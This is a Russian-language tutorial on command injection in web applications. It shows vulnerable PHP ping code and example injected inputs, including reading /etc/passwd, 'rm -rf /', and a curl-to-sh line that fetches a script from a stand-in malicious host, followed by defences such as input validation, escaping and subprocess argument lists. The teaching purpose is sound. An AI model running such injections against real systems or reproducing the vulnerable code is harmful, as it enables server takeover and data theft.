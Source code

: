 **Инъекция команд (Command Injection)** — это вид уязвимости, при которой злоумышленник может выполнить произвольные системные команды на сервере, используя уязвимости в веб-приложении. Это возможно, когда приложение передаёт пользовательский ввод в командную оболочку (например, bash, cmd) без должной фильтрации и экранирования. Инъекция команд часто используется для получения полного контроля над сервером, кражи данных или нарушения его работы.

### Как работает Command Injection?

Инъекция команд происходит, когда серверное приложение динамически формирует и выполняет системные команды с использованием входных данных от пользователя. Если эти данные не проверяются, злоумышленник может подставить свои команды и заставить сервер их выполнить.

#### Пример работы

Рассмотрим веб-приложение, которое предоставляет пользователю возможность пинговать IP-адреса через веб-интерфейс:

```php
$ip = $_GET['ip'];
system("ping -c 4 " . $ip);
```

В этом примере код принимает IP-адрес через параметр `GET` и вставляет его в команду `ping`. Если пользователь введёт обычный IP-адрес, команда будет выполнена корректно. Однако злоумышленник может вместо IP-адреса передать следующее:

```
127.0.0.1; ls
```

В результате сервер выполнит не только команду `ping`, но и команду `ls`, которая выведет список файлов на сервере. Злоумышленник может вставить любую другую системную команду.

### Примеры атак Command Injection

1. **Использование специальных символов**:
   Символы, такие как `;`, `&&`, `||`, позволяют злоумышленникам цеплять дополнительные команды к исходной:

   - `;` — выполняет команды последовательно (например, `ping 127.0.0.1; rm -rf /`).
   - `&&` — выполняет вторую команду, только если первая завершится успешно (например, `ping 127.0.0.1 && ls`).
   - `||` — выполняет вторую команду, если первая завершилась с ошибкой (например, `ping 127.0.0.1 || echo "Error occurred"`).

2. **Объединение команд**:
   Злоумышленник может использовать пайпы `|` для передачи вывода одной команды в другую (например, `ping 127.0.0.1 | grep "64 bytes"`).

3. **Перенаправление вывода**:
   Команды могут перенаправить вывод или ошибки в файлы с помощью символов `>` и `2>`. Это может быть использовано для записи данных в критические системные файлы (например, `ping 127.0.0.1 > /tmp/log.txt`).

4. **Запуск шелл-скриптов**:
   Злоумышленники могут использовать инъекцию команд для выполнения целых скриптов:

   ```bash
   ; curl http://malicious-site.com/script.sh | sh
   ```

### Виды Command Injection

1. **Blind Command Injection (Слепая инъекция команд)**:
   В этом случае злоумышленник не видит результата выполнения команды напрямую, но всё же может понять, что команда была выполнена, через побочные эффекты, например, изменение системы или отправку данных на сторонний сервер.

2. **Classic Command Injection (Классическая инъекция команд)**:
   Злоумышленник может напрямую видеть вывод команды в ответе веб-приложения. Например, если введённые команды возвращают результат прямо на страницу сайта.

### Пример сценария Command Injection

Предположим, веб-приложение позволяет пользователю вводить IP-адрес для проверки доступности удалённого хоста через `ping`. Приложение передаёт этот IP-адрес в системную команду:

```php
$ip = $_POST['ip'];
exec("ping -c 4 " . $ip);
```

Злоумышленник вводит следующее значение в поле ввода:

```
127.0.0.1; cat /etc/passwd
```

Команда `ping -c 4 127.0.0.1; cat /etc/passwd` будет выполнена на сервере, и содержимое файла `/etc/passwd` (список пользователей на сервере) будет выведено. Это может привести к краже данных или дальнейшему исследованию системы злоумышленником.

### Последствия Command Injection

- **Получение полного контроля над сервером**: Злоумышленник может выполнить любые команды, получив доступ к системе, базе данных или другим критически важным ресурсам.
- **Кража конфиденциальных данных**: Команды могут позволить злоумышленнику просматривать конфиденциальные файлы или извлекать данные.
- **Установка вредоносного ПО**: Через командную инъекцию возможно загрузить и выполнить вредоносные программы, такие как трояны или программы-вымогатели.
- **Удаление или модификация данных**: Злоумышленник может выполнить команды для удаления или изменения данных на сервере.
- **Отказ в обслуживании**: Выполнение команд, например, для удаления важных файлов, может привести к остановке работы веб-приложения.

### Как защититься от Command Injection?

1. **Фильтрация и валидация входных данных**:
   Никогда не доверяйте входным данным от пользователей. Всегда валидируйте и фильтруйте данные. Например, проверяйте, что вводимые значения соответствуют ожидаемому формату (IP-адрес, числовые значения и т.д.).

   Пример валидации IP-адреса в PHP:

   ```php
   if (filter_var($ip, FILTER_VALIDATE_IP)) {
       // Выполнение команды
   } else {
       echo "Неверный IP";
   }
   ```

2. **Экранирование данных**:
   Используйте функции для безопасного выполнения команд, такие как `escapeshellcmd()` и `escapeshellarg()` в PHP, которые экранируют специальные символы и предотвращают инъекции.

   ```php
   $ip = escapeshellarg($_GET['ip']);
   system("ping -c 4 " . $ip);
   ```

3. **Использование специализированных библиотек**:
   Вместо того чтобы напрямую выполнять системные команды, используйте функции или библиотеки, которые предоставляют безопасные API для выполнения задач (например, выполнение сетевых операций через библиотеки, а не через системные команды).

4. **Ограничение прав доступа**:
   Приложение и сервер должны работать с минимальными привилегиями. Если злоумышленник сможет выполнить команду, он не должен получить доступ к критическим системным файлам или функциям.

5. **Использование `subprocess` в Python**:
   В Python можно использовать безопасные функции, такие как `subprocess.run()`, которые позволяют передавать аргументы отдельно, избегая риска инъекций.

   Пример:

   ```python
   import subprocess
   subprocess.run(["ping", "-c", "4", ip_address], check=True)
   ```

6. **Обновление ПО и фреймворков**:
   Всегда обновляйте программное обеспечение и используемые фреймворки до актуальных версий, чтобы избежать использования уязвимостей, известных злоумышленникам.

7. **Использование инструментов мониторинга и анализа**:
   Инструменты анализа логов и мониторинга безопасности могут помочь обнаружить подозрительные действия и предотвращать атаки на ранних этапах.

### Заключение

Инъекция команд — это опасная уязвимость, которая может привести к катастрофическим последствиям, таким как кража данных, полный контроль над сервером или разрушение инфраструктуры. Основные меры защиты включают валидацию входных данных, экранирование команд, использование специализированных библиотек и ограничение прав доступа.